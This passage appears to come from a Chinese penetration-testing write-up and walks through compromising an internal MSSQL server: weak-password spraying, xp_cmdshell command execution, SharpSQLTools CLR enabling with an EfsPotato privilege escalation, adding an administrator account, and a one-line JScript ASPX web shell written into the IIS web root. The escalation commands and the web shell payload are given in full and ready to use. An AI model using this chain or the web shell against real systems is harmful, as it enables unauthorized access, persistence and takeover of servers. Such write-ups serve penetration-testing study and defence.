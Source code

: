 但是通过一波密码喷洒发现 mssql 数据库的密码是弱口令：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLZ0ibt0PyajibbcwI4ia0bkY3n1baewTbmdTicDpJvSgKggeb425IHOdPtw/640?wx_fmt=png)

随后对其进行 xp_cmdshell 调用系统命令：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLpABia6iaNgdOnl0lKuicOqyu9qZV0t72aG2ID0TtdeqybibedUoQmXhpRw/640?wx_fmt=png)

发现权限很小只是一个普通服务权限，由于目标机器不出网不存在让他下载我们的 exe，随后使用 MSF + Proxychains 调用 xpcmdshell 模块上线到 MSF，但是失败了：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLsqV2ibpYmyJf1NtoD2B7crht8xibicxLEXOS9y5fibO5vv5O5GZrvibicF6A/640?wx_fmt=png)

既然上线失败且目标是 iis，那么想办法找到 iis 到目录写个一句话吧。  

一般 iis 的目录是：`C:\inetpub\wwwroot`，那么查看下是否存在：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLEfZaKSQTeUC5ROVcJyJUowrHdUzEP3YGnyDv0DzzbFS4NJ3f3lt0Gg/640?wx_fmt=png)

果然还是默认目录，接下来写个 txt 试试：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL8icDxic7RQs7O7ryFOpDET3n0y5PEQslhDaKFAvQJ3plNUtgVVUgD3cw/640?wx_fmt=png)

不行权限太小了，这条路走不通。

使用 SharpSQLTools 开启目标 clr：

```
SharpSQLTools.exe 10.10.10.18 sa sa master enable_clr
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato whoami
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLJG9EVoZIfR0eBia3tb93ib8kT6zFF3Bg62N2n0ianps3pudMNE4Yyzs0w/640?wx_fmt=png)

然后启用并调用命令：

```
echo ^<^%^@Page Language=^"^Jscript^"^%^>^<^%^eval(Request.Item^[^"saul^"^]^,^"unsafe^")^;^%^>>c:\inetpub\wwwroot\1.aspx
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLogia6meTdfy2LbkTibHGicgj76kzaCHxWGTMHIibCL0O52JiayTPCtyup9g/640?wx_fmt=png)

这下子就是一个系统权限了！

随后添加了一个管理员：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLPmFrLBkVI27AYmyheO5aXibibZrcluU7jwn4zViciaMzkNzKyWukxD9oqQ/640?wx_fmt=png)

然后写文件也能写进去：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLeUSSsovKfQBHgFPrfpF4oMTQ35nWmgvWDORunmLVOCjvfFKuaQBUbg/640?wx_fmt=png)

然后写了一个一句话进去：  

```
exploit/windows/mssql/mssql_clr_payload
```
